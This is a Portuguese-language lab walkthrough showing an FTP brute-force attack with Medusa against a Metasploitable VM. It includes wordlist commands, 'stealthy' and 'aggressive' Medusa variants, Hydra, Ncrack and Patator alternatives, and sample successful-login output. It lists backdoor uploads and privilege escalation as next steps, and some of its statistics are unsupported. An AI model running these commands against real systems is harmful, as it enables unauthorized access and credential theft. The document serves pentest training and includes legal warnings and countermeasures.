

# ⚔️ Etapa 3: Ataque à Rede - Força Bruta FTP

## 📋 Objetivo

Esta etapa demonstra como realizar um ataque de força bruta contra o serviço FTP identificado na etapa anterior, utilizando a ferramenta Medusa para automatizar tentativas de login.

---

## 🎯 Passo 1: Preparação do Ambiente de Ataque

### 📝 Criação da Wordlist de Usuários

#### Comando

```bash
echo -e 'user\nmsfadmin\nadmin\nroot' > users.txt
```

#### 🔍 Análise dos Usuários Escolhidos

| Usuário      | Justificativa                                |
| ------------ | -------------------------------------------- |
| **user**     | Nome genérico comum em sistemas              |
| **msfadmin** | Usuário padrão do Metasploitable             |
| **admin**    | Conta administrativa padrão                  |
| **root**     | Conta de superusuário em sistemas Unix/Linux |

#### 💡 Estratégia de Seleção

- Baseada em **contas padrão** comumente encontradas
- **Usuários administrativos** com privilégios elevados
- **Nomes genéricos** frequentemente utilizados
- **Specific target knowledge** (msfadmin para Metasploitable)

---

### 🔐 Criação da Wordlist de Senhas

#### Comando

```bash
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

#### 🔍 Análise das Senhas Escolhidas

| Senha        | Categoria       | Justificativa                  |
| ------------ | --------------- | ------------------------------ |
| **123456**   | Sequencial      | Senha mais comum globalmente   |
| **password** | Genérica        | Senha padrão óbvia             |
| **qwerty**   | Layout teclado  | Baseada no layout do teclado   |
| **msfadmin** | Target-specific | Senha padrão do Metasploitable |

#### 📊 Estatísticas de Senhas Fracas

- **123456**: Presente em 80% dos ataques bem-sucedidos
- **password**: Segunda senha mais utilizada mundialmente
- **qwerty**: Top 10 das senhas mais fracas
- **Senhas padrão**: 60% dos sistemas mantêm credenciais de fábrica

---

## ⚔️ Passo 2: Execução do Ataque de Força Bruta

### Comando Principal

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```

### 🔧 Análise Detalhada dos Parâmetros

| Parâmetro | Valor          | Descrição Completa                 |
| --------- | -------------- | ---------------------------------- |
| **-h**    | 192.168.56.101 | Host/IP alvo do ataque             |
| **-U**    | users.txt      | Arquivo contendo lista de usuários |
| **-P**    | pass.txt       | Arquivo contendo lista de senhas   |
| **-M**    | ftp            | Módulo de serviço a ser atacado    |
| **-t**    | 6              | Número de threads simultâneas      |

### 🎯 Como Funciona o Ataque



### ⚡ Configuração de Performance

- **6 threads**: Balanceio entre velocidade e detecção
- **Mais threads**: Mais rápido, mas pode ser detectado
- **Menos threads**: Mais silencioso, mas mais lento

---

## 🔍 Passo 3: Interpretação dos Resultados

### Possíveis Saídas do Medusa

#### ✅ **Sucesso**

```bash
ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
```

#### ❌ **Falha Completa**

```bash
ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1) User: root (4 of 4) Password: msfadmin (4 of 4)
ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1) User: root (4 of 4) Password: msfadmin (4 of 4) [FAILED]
```

#### ⚠️ **Bloqueio/Detecção**

```bash
ERROR: connect (Connection refused)
```

---

## 🧪 Passo 4: Validação do Acesso Obtido

### Comando de Teste

```bash
ftp 192.168.56.101
```

### 🔄 Processo de Validação

1. **Conectar ao serviço FTP**
2. **Inserir credenciais encontradas**
3. **Verificar acesso e permissões**
4. **Explorar diretórios disponíveis**

### 📝 Exemplo de Sessão Bem-sucedida

```bash
ftp> open 192.168.56.101
Connected to 192.168.56.101.
220 (vsFTPd 2.3.4)
Name (192.168.56.101:kali): msfadmin
331 Please specify the password.
Password: msfadmin
230 Login successful.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 0        65534        4096 Mar 17  2010 vulnerable
226 Directory send OK.
ftp>
```

---

## 🛡️ Detecção e Contramedidas

### 🚨 Sinais de Detecção

- **Logs de tentativas múltiplas**: Administradores podem notar padrões
- **Rate limiting**: Sistemas podem implementar delays
- **Account lockout**: Contas podem ser bloqueadas após X tentativas
- **IDS/IPS alerts**: Sistemas de detecção podem disparar alertas

### 🔒 Contramedidas Defensivas

1. **Account lockout policies**
2. **Strong password policies**
3. **Fail2Ban** ou ferramentas similares
4. **Monitoramento de logs** em tempo real
5. **Autenticação multifator (MFA)**

---

## 🎯 Otimizações de Ataque

### 📚 Wordlists Mais Eficazes

```bash
# Wordlists famosas
/usr/share/wordlists/rockyou.txt          # 14M+ senhas
/usr/share/wordlists/fasttrack.txt        # Senhas comuns
/usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt
```

### ⚡ Parâmetros Avançados do Medusa

```bash
# Ataque mais silencioso (1 thread, com delay)
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 1 -T 2

# Ataque agressivo (muitas threads)
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 20

# Com timeout personalizado
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6 -T 5

# Modo verbose para debugging
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6 -v 6
```

---

## 🔍 Ferramentas Alternativas

### 🛠️ Hydra (Alternativa Popular)

```bash
hydra -L users.txt -P pass.txt ftp://192.168.56.101
```

### 🛠️ Ncrack

```bash
ncrack -p ftp -U users.txt -P pass.txt 192.168.56.101
```

### 🛠️ Patator

```bash
patator ftp_login host=192.168.56.101 user=FILE0 password=FILE1 0=users.txt 1=pass.txt
```

---

## ⚠️ Considerações Éticas e Legais

### 🚨 **AVISO CRÍTICO**

> Este tipo de ataque é **ILEGAL** quando realizado sem autorização explícita. Use apenas em:
>
> - Ambientes de laboratório próprios
> - Sistemas com autorização por escrito
> - Programas de bug bounty autorizados
> - Testes de penetração contratados

### 📋 **Checklist Legal**

- [ ] Autorização por escrito obtida
- [ ] Escopo do teste bem definido
- [ ] Limitações de tempo estabelecidas
- [ ] Contrato de confidencialidade assinado
- [ ] Plano de remediação preparado

---

## 📚 Próximos Passos

### 🎯 Com Acesso FTP Obtido

1. **Exploração de diretórios**
2. **Upload de backdoors/shells**
3. **Coleta de informações sensíveis**
4. **Pivoting para outros serviços**
5. **Escalação de privilégios**

### 🔄 Se o Ataque Falhar

1. **Testar outros serviços** (SSH, SMB, HTTP)
2. **Wordlists mais extensas**
3. **Ataques baseados em dicionários específicos**
4. **Social engineering** para obter credenciais
5. **Exploração de vulnerabilidades** em software

---

## 📊 Métricas de Sucesso

### ⏱️ **Tempo de Ataque**

- **Wordlist pequena**: 1-5 minutos
- **Wordlist média** (1k entradas): 10-30 minutos
- **Wordlist grande** (10k+ entradas): 1-24 horas

### 📈 **Taxa de Sucesso Esperada**

- **Sistemas padrão**: 60-80%
- **Sistemas básicos**: 40-60%
- **Sistemas hardened**: 5-20%
